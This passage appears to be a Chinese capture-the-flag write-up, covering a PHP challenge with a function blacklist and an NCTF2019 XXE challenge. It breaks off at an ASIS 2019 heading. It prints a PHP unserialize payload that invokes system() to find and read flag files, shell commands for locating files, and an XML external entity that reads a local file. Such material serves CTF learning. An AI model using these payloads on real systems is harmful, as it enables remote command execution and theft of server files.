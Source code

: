 ```
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

if ($func != null) {
    $func = strtolower($func);
    if (!in_array($func,$disable_fun)) {
        echo gettime($func, $p);
    }else {
        die("Hacker...");
    }
}
?> 
```

这里有个好长一串的黑名单，为了绕过他，我们想到了反序列化方式

首先要用find找一找flag在哪，然后利用cat命令搞到flag

### 知识点：寻找flag文件常用命令小结：

```
system(‘ls’) : 列举当前目录下的所有文件
system(“find / -name flag*”)：查找所有文件名匹配flag*的文件
system(“cat $(find / -name flag*)”)：打印所有文件名匹配flag*的文件 
```

最终payload：

```
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:25:"cat $(find / -name flag*)";s:4:"func";s:6:"system";} 
```

## [NCTF2019]Fake XML cookbook

## XXE 漏洞

XXE漏洞全称XML External Entity Injection即xml外部实体注入漏洞，XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站、发起dos攻击等危害。xxe漏洞触发的点往往是可以上传xml文件的位置，没有对上传的xml文件进行过滤，**导致可上传恶意xml文件**。

#### xml恶意实体构建

```
<!DOCTYPE ANY [
    <!ENTITY test SYSTEM "file:///flag">
]>
<user><username>&test;</username><password>123</password></user> 
```

# [ASIS 2019]Unicorn shop

特别特别好玩der题
